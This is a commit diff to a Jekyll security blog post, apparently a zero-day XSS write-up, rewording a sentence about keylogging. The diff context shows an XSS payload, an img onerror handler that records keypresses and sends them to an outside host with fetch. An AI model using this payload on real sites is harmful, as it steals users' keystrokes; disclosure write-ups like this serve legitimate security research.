

Before and after one commit to Halcy0nic/Halcy0nic.github.io, a Jekyll site: the page built from _posts/2020-01-23-mk-zero-day.md, in a window 1280 px wide and 900 px high, scrolled down 4338 px. Shown: the part 153-457 px from the top of the window, without its empty margins (188-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Fixing wording

````diff
--- a/_posts/2020-01-23-mk-zero-day.md
+++ b/_posts/2020-01-23-mk-zero-day.md
@@ -88,7 +88,7 @@ This XSS bug not only modifies the DOM but is reflected in the URL. This means w
 
 ![cookies](/assets/img/posts/cookie_redac.png)
 
-Harvesting cookies and shipping them off to a remote server is also quite simple:
+Keylogging and shipping the data off to a remote server is also quite simple:
 ```
 </h3><img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'><h3>
 ```
````
